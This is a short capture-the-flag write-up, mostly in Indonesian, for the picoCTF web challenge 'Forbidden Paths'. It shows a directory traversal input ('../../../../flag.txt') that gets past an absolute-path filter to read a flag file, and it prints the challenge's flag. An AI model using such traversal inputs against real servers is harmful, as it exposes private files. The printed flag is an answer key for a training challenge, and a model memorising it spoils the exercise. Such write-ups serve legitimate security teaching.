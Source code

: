 # Forbidden Paths
- Link: https://play.picoctf.org/practice/challenge/270?category=1&page=3

## Tantangan
Can you get the flag?
Here's the [website](http://saturn.picoctf.net:55793/).
We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

## Penyelesaian
- Buka URL http://saturn.picoctf.net:55793/ di browser

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Forbidden%20Paths/assets/forbidden%20path%201.JPG)

- Karena website berada di folder `/usr/share/nginx/html/` dan flag berada di `/flag.txt` maka kita bisa menginput path traversal sebagai berikut
```sh
../../../../flag.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Forbidden%20Paths/assets/forbidden%20path%202.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Forbidden%20Paths/assets/forbidden%20path%203.JPG)

- Flag
```sh
picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}
```